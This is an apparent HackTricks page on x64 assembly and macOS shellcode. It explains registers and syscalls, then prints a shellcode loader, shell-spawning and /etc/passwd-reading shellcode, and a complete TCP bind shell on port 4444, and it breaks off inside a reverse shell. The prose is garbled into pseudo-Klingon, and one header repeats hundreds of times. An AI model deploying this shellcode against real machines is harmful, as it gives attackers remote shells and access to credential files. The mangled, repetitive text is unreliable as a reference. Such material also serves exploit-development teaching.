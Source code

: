 # x64 jatlh

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>DaH jImej (HackTricks AWS Red Team Expert)</strong></a><strong>!**</strong></summary>

HackTricks jatlh:

* **Dochvam HackTricks** vItlhutlh vaj **HackTricks PDF** vItlhutlh [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) vItlhutlh!
* [**official PEASS & HackTricks swag**](https://peass.creator-spring.com) vItlhutlh
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) vItlhutlh, [**NFTs**](https://opensea.io/collection/the-peass-family) vItlhutlh
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) vaj [**telegram group**](https://t.me/peass) vaj **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) vaj [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## **x64 jatlh**

x64, DaH jImej x86-64, Hoch 64-bit processor architecture Hoch je predominantly used in desktop vaj server computing. Hoch x86 architecture produced by Intel vaj adopted by AMD with the name AMD64, 'oH prevalent architecture in personal computers vaj servers today.

### **Registers**

x64 expands upon the x86 architecture, featuring **16 general-purpose registers** labeled `rax`, `rbx`, `rcx`, `rdx`, `rbp`, `rsp`, `rsi`, `rdi`, vaj `r8` through `r15`. Hoch of these can store a **64-bit** (8-byte) value. Hoch registers also have 32-bit, 16-bit, vaj 8-bit sub-registers for compatibility vaj specific tasks.

1. **`rax`** - Traditionally used for **return values** from functions.
2. **`rbx`** - Often used as a **base register** for memory operations.
3. **`rcx`** - Commonly used for **loop counters**.
4. **`rdx`** - Used in various roles including extended arithmetic operations.
5. **`rbp`** - **Base pointer** for the stack frame.
6. **`rsp`** - **Stack pointer**, keeping track of the top of the stack.
7. **`rsi`** vaj **`rdi`** - Used for **source** vaj **destination** indexes in string/memory operations.
8. **`r8`** to **`r15`** - Additional general-purpose registers introduced in x64.

### **Calling Convention**

The x64 calling convention varies between operating systems. For instance:

* **Windows**: The first **four parameters** are passed in the registers **`rcx`**, **`rdx`**, **`r8`**, vaj **`r9`**. Further parameters are pushed onto the stack. The return value is in **`rax`**.
* **System V (commonly used in UNIX-like systems)**: The first **six integer or pointer parameters** are passed in registers **`rdi`**, **`rsi`**, **`rdx`**, **`rcx`**, **`r8`**, vaj **`r9`**. The return value is also in **`rax`**.

If the function has more than six inputs, the **rest will be passed on the stack**. **RSP**, the stack pointer, has to be **16 bytes aligned**, which means that the address it points to must be divisible by 16 before any call happens. This means that normally we would need to ensure that RSP is properly aligned in our shellcode before we make a function call. However, in practice, system calls work many times even if this requirement is not met.

### Calling Convention in Swift

Swift have its own **calling convention** that can be found in [**https://github.com/apple/swift/blob/main/docs/ABI/CallConvSummary.rst#x86-64**](https://github.com/apple/swift/blob/main/docs/ABI/CallConvSummary.rst#x86-64)

### **Common Instructions**

x64 instructions have a rich set, maintaining compatibility with earlier x86 instructions and introducing new ones.

* **`mov`**: **Move** a value from one **register** or **memory location** to another.
* Example: `mov rax, rbx` — Moves the value from `rbx` to `rax`.
* **`push`** vaj **`pop`**: Push or pop values to/from the **stack**.
* Example: `push rax` — Pushes the value in `rax` onto the stack.
* Example: `pop rax` — Pops the top value from the stack into `rax`.
* **`add`** vaj **`sub`**: **Addition** vaj **subtraction** operations.
* Example: `add rax, rcx` — Adds the values in `rax` vaj `rcx` storing the result in `rax`.
* **`mul`** vaj **`div`**: **Multiplication** vaj **division** operations. Note: these have specific behaviors regarding operand usage.
* **`call`** vaj **`ret`**: Used to **call** vaj **return from functions**.
* **`int`**: Used to trigger a software **interrupt**. E.g., `int 0x80` was used for system calls in 32-bit x86 Linux.
* **`cmp`**: **Compare** two values and set the CPU's flags based on the result.
* Example: `cmp rax, rdx` — Compares `rax` to `rdx`.
* **`je`, `jne`, `jl`, `jge`, ...**: **Conditional jump** instructions that change control flow based on the results of a previous `cmp` or test.
* Example: After a `cmp rax, rdx` instruction, `je label` — Jumps to `label` if `rax` is equal to `rdx`.
* **`syscall`**: Used for **system calls** in some x64 systems (like modern Unix).
* **`sysenter`**: An optimized **system call** instruction on some platforms.

### **Function Prologue**

1. **Push the old base pointer**: `push rbp` (saves the caller's base pointer)
2. **Move the current stack pointer to the base pointer**: `mov rbp, rsp` (sets up the new base pointer for the current function)
3. **Allocate space on the stack for local variables**: `sub rsp, <size>` (where `<size>` is the number of bytes needed)

### **Function Epilogue**

1. **Move the current base pointer to the stack pointer**: `mov rsp, rbp` (deallocate local variables)
2. **Pop the old base pointer off the stack**: `pop rbp` (restores the caller's base pointer)
3. **Return**: `ret` (returns control to the caller)
## macOS

### syscalls

**[**ghItlh'a'**](https://opensource.apple.com/source/xnu/xnu-1504.3.12/osfmk/mach/i386/syscall\_sw.h)**, **syscalls** qetlhDaq jImej.**
```c
#define SYSCALL_CLASS_NONE	0	/* Invalid */
#define SYSCALL_CLASS_MACH	1	/* Mach */
#define SYSCALL_CLASS_UNIX	2	/* Unix/BSD */
#define SYSCALL_CLASS_MDEP	3	/* Machine-dependent */
#define SYSCALL_CLASS_DIAG	4	/* Diagnostics */
#define SYSCALL_CLASS_IPC	5	/* Mach IPC */
```
**DaH, tu'lu'be'ghach** [**vItlhutlh**](https://opensource.apple.com/source/xnu/xnu-1504.3.12/bsd/kern/syscalls.master)**:**
```c
0	AUE_NULL	ALL	{ int nosys(void); }   { indirect syscall }
1	AUE_EXIT	ALL	{ void exit(int rval); }
2	AUE_FORK	ALL	{ int fork(void); }
3	AUE_NULL	ALL	{ user_ssize_t read(int fd, user_addr_t cbuf, user_size_t nbyte); }
4	AUE_NULL	ALL	{ user_ssize_t write(int fd, user_addr_t cbuf, user_size_t nbyte); }
5	AUE_OPEN_RWTC	ALL	{ int open(user_addr_t path, int flags, int mode); }
6	AUE_CLOSE	ALL	{ int close(int fd); }
7	AUE_WAIT4	ALL	{ int wait4(int pid, user_addr_t status, int options, user_addr_t rusage); }
8	AUE_NULL	ALL	{ int nosys(void); }   { old creat }
9	AUE_LINK	ALL	{ int link(user_addr_t path, user_addr_t link); }
10	AUE_UNLINK	ALL	{ int unlink(user_addr_t path); }
11	AUE_NULL	ALL	{ int nosys(void); }   { old execv }
12	AUE_CHDIR	ALL	{ int chdir(user_addr_t path); }
[...]
```
So in order to call the `open` syscall (**5**) from the **Unix/BSD class** you need to add it: `0x2000000`

So, the syscall number to call open would be `0x2000005`

### Shellcodes

To compile:

{% code overflow="wrap" %}
```bash
nasm -f macho64 shell.asm -o shell.o
ld -o shell shell.o -macosx_version_min 13.0 -lSystem -L /Library/Developer/CommandLineTools/SDKs/MacOSX.sdk/usr/lib
```
{% endcode %}

To extract the bytes:

{% code overflow="wrap" %}
```bash
# Code from https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/master/helper/extract.sh
for c in $(objdump -d "shell.o" | grep -E '[0-9a-f]+:' | cut -f 1 | cut -d : -f 2) ; do
echo -n '\\x'$c
done

# Another option
otool -t shell.o | grep 00 | cut -f2 -d$'\t' | sed 's/ /\\x/g' | sed 's/^/\\x/g' | sed 's/\\x$//g'
```
{% endcode %}

<details>

<summary>C code to test the shellcode</summary>
```c
// code from https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/master/helper/loader.c
// gcc loader.c -o loader
#include <stdio.h>
#include <sys/mman.h>
#include <string.h>
#include <stdlib.h>

int (*sc)();

char shellcode[] = "<INSERT SHELLCODE HERE>";

int main(int argc, char **argv) {
printf("[>] Shellcode Length: %zd Bytes\n", strlen(shellcode));

void *ptr = mmap(0, 0x1000, PROT_WRITE | PROT_READ, MAP_ANON | MAP_PRIVATE | MAP_JIT, -1, 0);

if (ptr == MAP_FAILED) {
perror("mmap");
exit(-1);
}
printf("[+] SUCCESS: mmap\n");
printf("    |-> Return = %p\n", ptr);

void *dst = memcpy(ptr, shellcode, sizeof(shellcode));
printf("[+] SUCCESS: memcpy\n");
printf("    |-> Return = %p\n", dst);

int status = mprotect(ptr, 0x1000, PROT_EXEC | PROT_READ);

if (status == -1) {
perror("mprotect");
exit(-1);
}
printf("[+] SUCCESS: mprotect\n");
printf("    |-> Return = %d\n", status);

printf("[>] Trying to execute shellcode...\n");

sc = ptr;
sc();

return 0;
}
```
</details>

#### Shell

Taken from [**here**](https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/shell.s) and explained.

{% tabs %}
{% tab title="with adr" %}

#### Qap

[**Qap**](https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/shell.s) vItlhutlh.

{% endtab %}
```armasm
bits 64
global _main
_main:
call    r_cmd64
db '/bin/zsh', 0
r_cmd64:                      ; the call placed a pointer to db (argv[2])
pop     rdi               ; arg1 from the stack placed by the call to l_cmd64
xor     rdx, rdx          ; store null arg3
push    59                ; put 59 on the stack (execve syscall)
pop     rax               ; pop it to RAX
bts     rax, 25           ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall
```
{% tab title="with stack" %}

{% endtab %}
```armasm
bits 64
global _main

_main:
xor     rdx, rdx          ; zero our RDX
push    rdx               ; push NULL string terminator
mov     rbx, '/bin/zsh'   ; move the path into RBX
push    rbx               ; push the path, to the stack
mov     rdi, rsp          ; store the stack pointer in RDI (arg1)
push    59                ; put 59 on the stack (execve syscall)
pop     rax               ; pop it to RAX
bts     rax, 25           ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall
```
{% endtab %}
{% endtabs %}

#### QaD jatlh

The goal is to execute `execve("/bin/cat", ["/bin/cat", "/etc/passwd"], NULL)`, so the second argument (x1) is an array of params (which in memory these means a stack of the addresses).
```armasm
bits 64
section .text
global _main

_main:
; Prepare the arguments for the execve syscall
sub rsp, 40         ; Allocate space on the stack similar to `sub sp, sp, #48`

lea rdi, [rel cat_path]   ; rdi will hold the address of "/bin/cat"
lea rsi, [rel passwd_path] ; rsi will hold the address of "/etc/passwd"

; Create inside the stack the array of args: ["/bin/cat", "/etc/passwd"]
push rsi   ; Add "/etc/passwd" to the stack (arg0)
push rdi   ; Add "/bin/cat" to the stack (arg1)

; Set in the 2nd argument of exec the addr of the array
mov rsi, rsp    ; argv=rsp - store RSP's value in RSI

xor rdx, rdx    ; Clear rdx to hold NULL (no environment variables)

push    59      ; put 59 on the stack (execve syscall)
pop     rax     ; pop it to RAX
bts     rax, 25 ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall         ; Make the syscall

section .data
cat_path:      db "/bin/cat", 0
passwd_path:   db "/etc/passwd", 0
```
#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke command with sh

#### Invoke
```armasm
bits 64
section .text
global _main

_main:
; Prepare the arguments for the execve syscall
sub rsp, 32           ; Create space on the stack

; Argument array
lea rdi, [rel touch_command]
push rdi                      ; push &"touch /tmp/lalala"
lea rdi, [rel sh_c_option]
push rdi                      ; push &"-c"
lea rdi, [rel sh_path]
push rdi                      ; push &"/bin/sh"

; execve syscall
mov rsi, rsp                  ; rsi = pointer to argument array
xor rdx, rdx                  ; rdx = NULL (no env variables)
push    59                    ; put 59 on the stack (execve syscall)
pop     rax                   ; pop it to RAX
bts     rax, 25               ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall

_exit:
xor rdi, rdi                  ; Exit status code 0
push    1                     ; put 1 on the stack (exit syscall)
pop     rax                   ; pop it to RAX
bts     rax, 25               ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall

section .data
sh_path:        db "/bin/sh", 0
sh_c_option:    db "-c", 0
touch_command:  db "touch /tmp/lalala", 0
```
#### Bind shell

Bind shell from [https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html](https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html) in **port 4444**.

#### Bind shell

Bind shell from [https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html](https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html) in **port 4444**.
```armasm
section .text
global _main
_main:
; socket(AF_INET4, SOCK_STREAM, IPPROTO_IP)
xor  rdi, rdi
mul  rdi
mov  dil, 0x2
xor  rsi, rsi
mov  sil, 0x1
mov  al, 0x2
ror  rax, 0x28
mov  r8, rax
mov  al, 0x61
syscall

; struct sockaddr_in {
;         __uint8_t       sin_len;
;         sa_family_t     sin_family;
;         in_port_t       sin_port;
;         struct  in_addr sin_addr;
;         char            sin_zero[8];
; };
mov  rsi, 0xffffffffa3eefdf0
neg  rsi
push rsi
push rsp
pop  rsi

; bind(host_sockid, &sockaddr, 16)
mov  rdi, rax
xor  dl, 0x10
mov  rax, r8
mov  al, 0x68
syscall

; listen(host_sockid, 2)
xor  rsi, rsi
mov  sil, 0x2
mov  rax, r8
mov  al, 0x6a
syscall

; accept(host_sockid, 0, 0)
xor  rsi, rsi
xor  rdx, rdx
mov  rax, r8
mov  al, 0x1e
syscall

mov rdi, rax
mov sil, 0x3

dup2:
; dup2(client_sockid, 2)
;   -> dup2(client_sockid, 1)
;   -> dup2(client_sockid, 0)
mov  rax, r8
mov  al, 0x5a
sub  sil, 1
syscall
test rsi, rsi
jne  dup2

; execve("//bin/sh", 0, 0)
push rsi
mov  rdi, 0x68732f6e69622f2f
push rdi
push rsp
pop  rdi
mov  rax, r8
mov  al, 0x3b
syscall
```
#### Reverse Shell

Reverse shell from [https://packetstormsecurity.com/files/151727/macOS-127.0.0.1-4444-Reverse-Shell-Shellcode.html](https://packetstormsecurity.com/files/151727/macOS-127.0.0.1-4444-Reverse-Shell-Shellcode.html). Reverse shell to **127.0.0.1:4444**
```armasm
section .text
global _main
_main:
; socket(AF_INET4, SOCK_STREAM, IPPROTO_IP)
xor  rdi, rdi
mul  rdi
mov  dil, 0x2
xor  rsi, rsi
mov  sil, 0x1
mov  al, 0x2
ror  rax, 0x28
mov  r8, rax
mov  al, 0x61
syscall

